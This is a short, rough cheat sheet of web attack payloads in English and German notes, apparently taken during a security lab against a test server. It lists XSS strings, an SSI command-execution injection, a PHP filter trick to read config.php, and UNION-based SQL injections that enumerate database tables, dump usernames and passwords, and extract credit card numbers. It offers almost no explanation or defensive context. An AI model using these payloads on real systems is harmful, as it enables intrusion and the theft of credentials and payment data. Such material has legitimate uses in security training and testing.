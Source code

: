 # SQL_XSS

XSS
#< script>alert('blabla')< /script>


#SSI -> Server Side Includes
#open a cmd and entre a command on a server using a injiection / for example, to see some directories or files on a server
 <! --#exec cmd="ls ../.." -->  #drop the space

92.60.14.134:8081/xss/iframe3?path=asdfasdf" onload="alert('blabla')

LFI -> php -> 
 php://filter/convert.base64-encode/resource=config.php

http://92.60.14.134:8081/xss/jsvar1?count=99%22);alert(2);//

http://92.60.14.134:8081/xss/jsvar2?count=33);%3C/script%3E%3Cscript%3Ealert(2)%3C/script%3E

SQL Injection:
105 ' or 1=1 -- -'

http://92.60.14.134:8081/sql/1?category=animal' Union select @@version, null;-- -
http:/bla.ch/bla=1 union all select #find the nummer of tables by test.. example 1,#enter not ok# 1, 2
 from table name
 
 
Alles auszeigen lassen:
http://92.60.14.134:8081/sql/1?category=animal' Union select table_schema, table_name from 

information_schema.tables;-- -

http://92.60.14.134:8081/sql/1?category=animal' Union select table_name, column_name from 

information_schema.columns ;-- -

http://92.60.14.134:8081/sql/1?category=animal' UNION SELECT user_name,user_password FROM users;-- -

Wenn Datenbank im Root verzeichnis lauft, dann kann ein PHP file eingespielt werden.

M* ') or 1=1--
M* ') UNION SELECT 1,2,3,4,5-- -
F* ') union select 1,2,table_name,4,5 from information_schema.tables where table_schema=database()--+ 
F* ') union select 1,name,creditcard,4,5 from customers -- + --> find the credit cards
